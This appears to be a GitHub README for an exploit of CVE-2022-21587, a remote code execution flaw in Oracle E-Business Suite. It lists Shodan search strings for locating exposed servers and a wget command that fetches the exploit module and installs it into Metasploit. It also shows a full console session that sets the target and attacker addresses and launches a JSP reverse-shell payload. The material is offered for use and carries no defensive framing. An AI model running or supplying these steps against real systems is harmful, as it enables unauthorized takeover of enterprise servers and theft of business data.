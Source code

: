 ## CVE-2022-21587
![](https://img.shields.io/static/v1?label=Product&message=Oracle%20E-Business%20Suite&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=12.2.3-12.2.11&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


- Shodan dork:
```
Oracle EBS
```
```
AppsLocalLogin.jsp
```
- Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2022/Oracle_EBS/oracle_ebs_rce_cve_2022_21587.rb 
```
```
cp oracle_ebs_rce_cve_2022_21587.rb /usr/share/metasploit-framework/modules/exploits/linux/http/
```
- Usage
```
msfdb reinit; msfconsole -q
```
```
msf6 > use exploit/linux/http/oracle_ebs_rce_cve_2022_21587.rb
```
```
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > options

Module options (exploit/linux/http/oracle_ebs_rce_cve_2022_21587):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    8000             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Oracle EBS on Linux (OVA Install)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > set rhosts target_IP
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > set lhost attacker_IP
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > run
```
